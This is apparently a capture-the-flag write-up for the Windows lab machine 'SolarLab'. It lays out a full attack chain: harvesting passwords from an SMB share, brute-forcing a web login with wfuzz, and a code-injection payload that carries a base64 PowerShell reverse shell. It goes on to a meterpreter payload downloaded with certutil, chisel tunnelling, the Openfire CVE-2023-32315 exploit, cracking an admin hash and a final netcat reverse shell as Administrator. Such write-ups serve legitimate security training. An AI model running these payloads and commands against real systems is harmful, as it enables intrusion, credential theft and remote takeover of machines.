

# SolarLab

**Level:** Medium

**OS**: Windows

# Recon

`nmap -sCV 10.10.11.16`



## SMB

Listing samba shares

`smbclient -L \\\\10.10.11.16\\`


Connect to the share

`smbclient \\\\10.10.11.16\\Documents`


Found some credentials inside the file `details-file.xlsx`


| Username | Password |
| --- | --- |
| [Alexander.knight@gmail.com](mailto:Alexander.knight@gmail.com) | al;ksdhfewoiuh |
| KAlexander | dkjafblkjadsfgl |
| [Alexander.knight@gmail.com](mailto:john.doe@gmail.com) | d398sadsknr390 |
| blake.byte | ThisCanB3typedeasily1@ |
| AlexanderK | danenacia9234n |
| ClaudiaS | dadsfawe9dafkn |

### New Port

`nmap solarlab.htb -p- -T4`


## Web ( 6791 )

### Bruteforce Login

`wfuzz -c -z file,users.txt -z file,pass.txt --hw 0 -d "username=FUZZ&password=FUZ2Z" -H "Content-Type: application/x-www-form-urlencoded" -u [http://report.solarlab.htb:6791/login](http://report.solarlab.htb:6791/login)`


`blakeb`

`ThisCanB3typedeasily1@`

Access the training request and open a nc listener, then use a base64 powershell reverse shell

```sql
<para><font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAiACwAMQAyADMANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">exploit</font></para>
```

Request


Got shell


### Generate a meterpreter shell

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=6666 -f exe > shell.exe`


Open a webserver to download the shell from windows

`python3 -m http.server 80`


Download it

`certutil -urlcache -f [http://10.10.14.3/shell.exe](http://10.10.14.3/shell.exe) shell.exe`


Setup a listener


Run the `shell.exe` on the windows machine and we should get a meterpreter session


Database file

`C:\Users\blake\Documents\app\instance\users.db`


Got some credentials


```sql
**Credentials:
blakeb:ThisCanB3typedeasily1@
claudias:007poiuytrewq
alexanderk:HotP!fireguard**
```

Importing `RunAS`

`./runascs.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r 10.10.14.249:7777`

`./RunasCs.exe openfire HotP!fireguard powershell.exe`

## PortForward

On kali linux

`./chisel_linux server -p 2222 --reverse`

On windows

`.\chisel.exe client 10.10.14.3:2222 R:3333:127.0.0.1:9090`

Now we can access to `localhost:3333`

Openfire webpage


Running the exploit against openfire

`python3 CVE-2023-32315.py -t http://localhost:3333`

[https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)


Uploading the `.jar`


```sql
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
```

Hash

becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442

Key

hGXiFzsKaAeYLjn


Decrypting


Password

`ThisPasswordShouldDo!@`

Getting Administrator access

`.\RunasCs.exe Administrator ThisPasswordShouldDo!@ "C:\Users\Public\nc.exe 10.10.14.3 9999 -e cmd.exe"`
